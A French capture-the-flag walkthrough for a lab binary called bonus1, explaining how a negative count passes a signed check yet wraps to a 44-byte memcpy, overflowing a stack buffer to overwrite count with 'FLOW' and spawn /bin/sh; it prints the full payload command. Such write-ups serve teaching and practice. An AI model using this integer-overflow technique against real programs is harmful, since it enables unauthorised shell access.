

# Bonus1 — Walkthrough

> **En résumé :** `count = atoi(argv[1])`. Le test `count < 10` est **signé**
> (un négatif passe), mais `memcpy(buffer, argv[2], count * 4)` voit la taille
> en **non signé** : un négatif bien choisi déborde et donne **44 octets**.
> Comme `count` est rangé **juste après** `buffer[40]` sur la pile, copier 44
> octets **écrase `count`**. On le réécrit avec `"FLOW"` (`0x574f4c46`) → le test
> final `count == 0x574f4c46` devient vrai → `execl("/bin/sh")`.

## Le point clé : « atteindre count » avec le memcpy

Sur la pile, `buffer` (40 octets) et `count` (4 octets) sont **collés**, dans cet
ordre. Le `memcpy` écrit dans `buffer` **vers les adresses croissantes**, donc en
direction de `count`. Si on copie plus de 40 octets, on dépasse `buffer` et on
tombe **pile sur `count`** :



### Pourquoi 44 octets exactement ?

```
adresses croissantes →
┌────────────────────────────┬──────────────┐
│   buffer[40]               │   count (4)  │
│   octets 0 → 39            │  octets 40-43│
└────────────────────────────┴──────────────┘
                              ↑
                  count commence PILE à l'octet 40

40 (remplir buffer) + 4 (écraser count) = 44 octets à copier
```

- copier **40** octets → remplit `buffer`, mais ne touche pas `count` 
- copier **44** octets → remplit `buffer` **puis écrase `count`** 

Les 4 derniers octets de `argv[2]` (`\x46\x4c\x4f\x57`) deviennent donc la
nouvelle valeur de `count`.

> **44 = la TAILLE de la copie** (combien d'octets). **0x574f4c46 = la VALEUR**
> qu'on écrit dans `count`. Deux choses différentes ! On copie 44 octets *pour
> pouvoir* poser `0x574f4c46` dans `count`.

## Comment obtenir une copie de 44 octets

Problème : `count` doit passer le test `count < 10` (donc petit/négatif), mais
`memcpy` doit copier 44 octets. On exploite le fait que `count` est **signé**
mais que la taille de `memcpy` est **non signée** (`size_t`) :

```
count        = -2147483637  (0x8000000B)
   → test "count < 10" : OK (négatif) ✓

count * 4    = -8589934548  → déborde l'int 32 bits → ≡ 44 (mod 2^32)
   → memcpy voit la taille 44 (non signé) ✓
```

Un seul nombre, deux lectures : **signé** pour le test (`-2147483637 < 10`),
**non signé** pour la taille (`44`).

### Pourquoi count × 4 donne 44 (en binaire)

`× 4` = décaler de 2 bits vers la gauche. Comme un `int` ne fait que 32 bits, les
bits qui dépassent à gauche sont **jetés** :

```
count   = 0x8000000B = 1000....0000 1011        (32 bits, bit de poids fort = 1 → négatif)
count×4 = décalage 2 → 10 0000....0010 1100      (34 bits : les 2 du haut débordent ✗)
gardé   = 0000....0010 1100 = 0x2C = 44          (seuls les 32 bits de droite restent)
```

→ les 2 bits du haut tombent par-dessus bord ; il reste `0x2C` = **44**.

## Le payload

```bash
./bonus1 -2147483637 $(python -c 'print "A"*40 + "\x46\x4c\x4f\x57"')
```

```
argv[1] = "-2147483637"   → count passe "< 10", et count*4 = 44 octets
argv[2] = "A"*40          → remplit buffer
          + \x46\x4c\x4f\x57   → écrase count avec 0x574f4c46 = "FLOW"
```

`"\x46\x4c\x4f\x57"` = `"FLOW"` écrit en **little-endian** (octets à l'envers) pour
que `count`, relu comme un entier, vaille bien `0x574f4c46`.
